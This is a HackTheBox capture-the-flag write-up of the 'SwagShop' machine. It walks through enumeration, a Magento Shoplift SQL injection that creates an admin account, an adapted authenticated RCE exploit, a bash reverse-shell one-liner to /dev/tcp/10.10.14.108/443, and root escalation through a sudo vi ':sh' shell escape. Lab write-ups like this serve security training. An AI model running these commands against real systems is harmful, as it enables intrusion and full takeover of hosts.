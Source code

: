 # HackTheBox
------------------------------------
### IP: 10.129.97.42
### Name: SwagShop
### Difficulty: Easy
--------------------------------------------

![SwagShop.png](../assets/swagshop_assets/SwagShop.png)

I'll begin enumerating this box by scanning all TCP ports with Nmap and use the `--min-rate 10000` flag to speed things up. I'll also use the `-sC` and `-sV` to use basic Nmap scripts and to enumerate versions:

```
┌──(ryan㉿kali)-[~/HTB/SwagShop]
└─$ sudo nmap -p- --min-rate 10000 -sC -sV 10.129.97.42 
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2024-06-24 08:56 CDT
Nmap scan report for 10.129.97.42
Host is up (0.080s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 b6552bd24e8fa3817261379a12f624ec (RSA)
|   256 2e30007a92f0893059c17756ad51c0ba (ECDSA)
|_  256 4c50d5f270c5fdc4b2f0bc4220326434 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Did not follow redirect to http://swagshop.htb/
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 16.17 seconds
```

Lets add swagshop.htb to `/etc/hosts`.

We can see that the site on port 80 is running Magento.

![swagshop_site.png](../assets/swagshop_assets/swagshop_site.png)

Running magescan against the target we see it is running version 1.9.0.0:

```
┌──(ryan㉿kali)-[~/Tools/exploits]
└─$ php magescan.phar scan:all http://swagshop.htb/
Scanning http://swagshop.htb/...

                       
  Magento Information  
                       

+-----------+------------------+
| Parameter | Value            |
+-----------+------------------+
| Edition   | Community        |
| Version   | 1.9.0.0, 1.9.0.1 |
+-----------+------------------+
```

Kicking off some directory fuzzing with:
```
┌──(ryan㉿kali)-[~/HTB/SwagShop]
└─$ feroxbuster --url http://swagshop.htb/ -x php txt -q 
```

We find some DB credentials in http://swagshop.htb/app/etc/local.xml

![swagshop_xml.png](../assets/swagshop_assets/swagshop_xml.png)

Continuing through the directory scanning results we find the admin login page at: http://swagshop.htb/index.php/admin

![swagshop_admin.png](../assets/swagshop_assets/swagshop_admin.png)

Looking for Magento exploits I find that Magento Shoplift is vulnerable to SQL injection. We can use the PoC at https://github.com/joren485/Magento-Shoplift-SQLI to create a new user:

```
┌──(ryan㉿kali)-[~/HTB/SwagShop]
└─$ python2 magento_sqli.py http://swagshop.htb
WORKED
Check http://swagshop.htb/admin with creds ypwq:123
```

We can now login at http://swagshop.htb/index.php/admin

![swagshop_in.png](../assets/swagshop_assets/swagshop_in.png)

Thinking back to the exploits I found for Magento, I recall having seen an authenticated RCE exploit. Now that I have valid credentials, this may work.

I find this script on exploitDB: https://www.exploit-db.com/exploits/37811

But this exploit will need a bit of tweaking for our purposes.

First lets add our created username and password, as well as update the install date variable found at http://swagshop.htb/app/etc/local.xml

![swagshop_config.png](../assets/swagshop_assets/swagshop_config.png)

Trying to run the script with the updates we've made, we get an error with mechanize:

```
┌──(ryan㉿kali)-[~/HTB/SwagShop]
└─$ python magento_rce.py http://swagshop.htb/index.php/admin "whoami"
Traceback (most recent call last):
  File "/home/ryan/HTB/SwagShop/magento_rce.py", line 55, in <module>
    br['login[username]'] = username
    ~~^^^^^^^^^^^^^^^^^^^
  File "/usr/lib/python3/dist-packages/mechanize/_mechanize.py", line 809, in __setitem__
    self.form[name] = val
    ~~~~~~~~~^^^^^^
  File "/usr/lib/python3/dist-packages/mechanize/_form_controls.py", line 1963, in __setitem__
    control = self.find_control(name)
              ^^^^^^^^^^^^^^^^^^^^^^^
  File "/usr/lib/python3/dist-packages/mechanize/_form_controls.py", line 2355, in find_control
    return self._find_control(name, type, kind, id, label, predicate, nr)
           ^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^
  File "/usr/lib/python3/dist-packages/mechanize/_form_controls.py", line 2445, in _find_control
    raise AmbiguityError("more than one control matching " +
mechanize._form_controls.AmbiguityError: more than one control matching name 'login[username]'
```

Lets comment out line 53:

![swagshop_comment.png](../assets/swagshop_assets/swagshop_comment.png)

### Exploitation

Running the exploit again we get execution:

```
┌──(ryan㉿kali)-[~/HTB/SwagShop]
└─$ python2 magento_rce.py http://swagshop.htb/index.php/admin "whoami"
www-data
```

Lets use this to get a reverse shell:

```
┌──(ryan㉿kali)-[~/HTB/SwagShop]
└─$ python2 magento_rce.py http://swagshop.htb/index.php/admin/ "bash -c 'bash -i >& /dev/tcp/10.10.14.108/443 0>&1'" 
```

![swagshop_shell.png](../assets/swagshop_assets/swagshop_shell.png)

We can then grab the user.txt flag:

![swagshop_user_flag.png](../assets/swagshop_assets/swagshop_user_flag.png)

### Privilege Escalation

Running `sudo -l` to see if user www-data can run anything with elevated permissions, we see they can run vi on files in `/var/www/html`:

```
www-data@swagshop:/home/haris$ sudo -l
Matching Defaults entries for www-data on swagshop:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on swagshop:
    (root) NOPASSWD: /usr/bin/vi /var/www/html/*
```

This is a super dangerous configuration because we can use vi to execute system commands, and if we can execute those commands with sudo, we effectively have a root shell. 

Lets try it by entering `:sh` in our vi session:

```
www-data@swagshop:/var/www/html$ sudo /usr/bin/vi /var/www/html/index.php 
<SNIP>
:sh
root@swagshop:/var/www/html# whoami
root
root@swagshop:/var/www/html# id
uid=0(root) gid=0(root) groups=0(root)
```
We can now grab the root.txt flag:

![swagshop_root_flag.png](../assets/swagshop_assets/swagshop_root_flag.png)

Thanks for following along!

-Ryan

----------------------------------------------

